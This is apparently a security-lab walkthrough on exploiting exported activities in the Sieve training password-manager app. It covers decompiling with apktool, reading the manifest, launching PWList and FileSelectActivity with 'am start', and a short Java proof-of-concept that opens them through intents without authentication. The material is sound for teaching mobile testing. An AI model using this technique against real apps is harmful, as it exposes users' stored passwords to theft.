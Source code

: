 # Exported Activity Hacking

1. **Retrieve the APK File**: Obtain the target APK file that you want to analyze.&#x20;

<figure><img src="../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

1.  **Install APK on the Android Emulator**

    &#x20;

    <figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>
2.  **Decompile APK using Apktool**

    <figure><img src="../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>
3.  **Decode APK Contents**

    <figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>
4.  **Analyze** `AndroidManifest.xml`: Investigate the `AndroidManifest.xml` file to identify declared activities and their associated permissions, Notice that there is exported Activities.

    <figure><img src="../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>
5.  **Exploration of Application Features**: Launch the application on the emulator to interact with its functionalities, Notice it is simple password manageer.

    <figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>
6.  **Identify Authentication Requirements**: Note any authentication mechanisms required by the application, such as password length or two-factor authentication (2FA) PIN.

    <figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
7.  **Access Password List Activity**: Discover the Password List Activity mentioned in the `AndroidManifest` file, where passwords and account details are managed&#x20;

    <figure><img src="../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
8.  **Attempt to Access Exported Activities**: Use the Activity Manager (am start -n ) to try accessing exported activities from outside the application

    <figure><img src="../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>
9. **Investigate Potential Data Storage Locations**: Start file list activity and searching for any data leakage, but found nothing + i couldn't access other activities from there.
10. **Access Password List Activity**: Successfully access the Password List Activity from outside the application

    <figure><img src="../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
11. **Encounter Error Messages**: Encounter error messages when attempting to view or modify passwords due to a required service not being started.&#x20;

    <figure><img src="../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>
12. **Examine Settings and Backup Options**: Investigate settings options within the application to create backups of passwords
13. **Discover Backup File Accessibility**: Find that backup files can be accessed via another exported activity, `com.mwr.example.sieve/.FileSelectActivity`


14. **Identify Security Vulnerability**: Realize that plaintext passwords are accessible without authentication, potentially exposing users to password theft through malicious apps.

    <figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>
15. Example code for Exploit POC

```java
import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Button to start FileSelectActivity
        Button fileSelectButton = findViewById(R.id.file_select_button);
        fileSelectButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the FileSelectActivity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.FileSelectActivity");
                startActivity(intent);
            }
        });

        // Button to start PWList Activity
        Button pwListButton = findViewById(R.id.pw_list_button);
        pwListButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the PWList Activity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
                startActivity(intent);
            }
        });
    }
}
```
